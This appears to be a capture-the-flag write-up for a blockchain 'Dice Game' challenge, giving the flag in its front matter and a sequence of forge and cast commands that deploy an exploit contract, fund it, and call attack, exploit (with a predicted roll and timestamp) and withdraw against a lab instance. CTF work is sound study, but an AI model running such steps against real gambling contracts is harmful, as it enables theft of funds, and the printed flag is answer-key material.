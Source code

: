 ```yaml
---
title: "Dice Game"
categories: Miscellaneous
tags: 
  - Blockchain
draft: false
completedDuringEvent: true
submitted: true
flag: RECURSION{pr0vably_f41r_d1ce_g4me_w1th_smart_c0ntr4cts}
---
```

> This is a blockchain-based **dice game** that simulates traditional gambling mechanics using smart contracts. Players can start a game, place wagers, and roll virtual dice with outcomes ranging from 1 to 1000. The game is designed to be provably fair by utilizing a combination of user-generated and server-generated seeds to compute each roll deterministically.

by `ztz`

---

```bash
$ forge create --broadcast --rpc-url http://103.87.66.171:8545/k16a8f6i8r9i5n7z --private-key 0xb1a96be28556d6721d3a5e0eb5d4973f1a4ba3e0754b99f1d6dd85134d57680e ./src/Exploit.sol:Exploit --constructor-args 0xF17C373965C4e66c8eaD5E24B41ABaFeA37e8E83 0x1c4107E0C5AF7Ff7e5fF1D8aC02b7A19e7Cd6379

$ cast send --private-key 0xb1a96be28556d6721d3a5e0eb5d4973f1a4ba3e0754b99f1d6dd85134d57680e --value 16ether 0x4bd657ac6a6C8908AEc9EAD37860fAba25700Cda --rpc-url http://103.87.66.171:8545/k16a8f6i8r9i5n7z
$ cast send 0x4bd657ac6a6C8908AEc9EAD37860fAba25700Cda "attack()" --private-key 0xb1a96be28556d6721d3a5e0eb5d4973f1a4ba3e0754b99f1d6dd85134d57680e --rpc-url http://103.87.66.171:8545/k16a8f6i8r9i5n7z
$ cast block latest --rpc-url http://103.87.66.171:8545/k16a8f6i8r9i5n7z
$ cast send 0x4bd657ac6a6C8908AEc9EAD37860fAba25700Cda "exploit(uint256, uint256)" 6 1743917106 --private-key 0xb1a96be28556d6721d3a5e0eb5d4973f1a4ba3e0754b99f1d6dd85134d57680e --rpc-url http://103.87.66.171:8545/k16a8f6i8r9i5n7z
$ cast send 0x4bd657ac6a6C8908AEc9EAD37860fAba25700Cda "withdraw()" --private-key 0xb1a96be28556d6721d3a5e0eb5d4973f1a4ba3e0754b99f1d6dd85134d57680e --rpc-url http://103.87.66.171:8545/k16a8f6i8r9i5n7z
```
